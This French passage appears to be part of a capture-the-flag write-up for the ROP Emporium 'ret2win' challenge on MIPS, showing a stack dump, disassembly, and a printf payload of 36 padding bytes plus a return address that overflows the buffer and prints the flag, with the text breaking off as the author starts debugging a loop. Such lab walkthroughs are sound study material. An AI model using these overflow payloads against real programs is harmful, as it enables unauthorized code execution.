 Les parametres sont dans a0,a1,a2.

Apres execution voyons la pile

    gef➤  x/16x $sp
    0x40800350:	0x00000005	0x00000005	0x3ffaac78	0x3fe81844
    0x40800360:	0x00419010	0x3ffe20f4	0x00000000	0x00000000
                save gp                 buffer
    0x40800370:	0x00000000	0x00000000	0x00000000	0x00000000
    0x40800380:	0x00000000	0x00000000	0x40800390	0x004008b8
                                        save fp     save ra

Le buffer a été mis à zero


Appel de la fonction de lecture.

    0x004009a0      1000dc8f       lw gp, (var_10h)
    0x004009a4      38000624       addiu a2, zero, 0x38      ; a2 = 50
    0x004009a8      1800c227       addiu v0, fp, 0x18
    0x004009ac      25284000       move a1, v0               ; a1 = fp+24
    0x004009b0      25200000       move a0, zero             ; a0 = 0
    0x004009b4      6480828f       lw v0, -sym._MIPS_STUBS_(gp) ; [0x411074:4]=0x400b80 sym.imp.read
    0x004009b8      25c84000       move t9, v0
    0x004009bc      09f82003       jalr t9                  ; jump and link register t9 => call t9
    0x004009c0      00000000       nop




## Exploitation


Recherche de l'adresse de ret2win :

    ret2win$ readelf -s ret2win_mipsel|grep ret2win
    44: 00000000     0 FILE    LOCAL  DEFAULT  ABS ret2win.c
    46: 00400a00   112 FUNC    LOCAL  DEFAULT   13 ret2win


Envoi d'un message constitué de 36 * "A" | 0x400a00

    printf "%36s\x00\x0a\x40\x00" A |qemu-mipsel -g 1337 ret2win_mipsel

Resultat :

    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}


Ca marche mais on boucle. Pourquoi ?

Observons le retour sous gdb
